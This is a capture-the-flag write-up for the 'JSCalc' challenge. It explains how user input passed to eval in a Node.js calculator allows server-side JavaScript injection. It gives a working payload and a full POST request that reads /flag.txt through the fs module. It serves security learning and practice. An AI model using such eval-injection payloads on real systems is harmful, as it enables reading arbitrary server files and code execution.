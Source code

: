 # JSCalc

Our input is passed directly to eval in `challenge/helpers/calculatorHelper.js:5`. The following payload will return to us `1` in the `message` and `console.log` in the `node` environment console:

```json
{
    "formula": "(() => {console.log(1); return 1;})()"
}
```

This input results in the following interpolated string:

```js
eval(`(function() { return (() => {console.log(1); return 1;})() ;}())`);
```

which for readability I will write as:

```js
(function() { return (() => {console.log(1); return 1;})() ;}())
```

This is basically a self-executing function that returns the result of the inner function in javascript. so basically what is happening is:
```js
console.log(1);
return 1;
```

When inspecting Docker container's filesystem, we can see that the flag is stored in `/flag.txt`, in order to read files in nodejs we can use `fs` module. After submitting:

```js
const fs = require('fs');
const flag = fs.readFileSync('/flag.txt', 'utf8');
return flag;
```

We get the flag in the response of the request:

```json
POST /api/calculate HTTP/1.1
Host: <host>
Content-Type: application/json

{
    "formula": "(() => {const fs = require('fs');const flag = fs.readFileSync('/flag.txt', 'utf8');return flag;})()"
}
```

We get the flag in response.
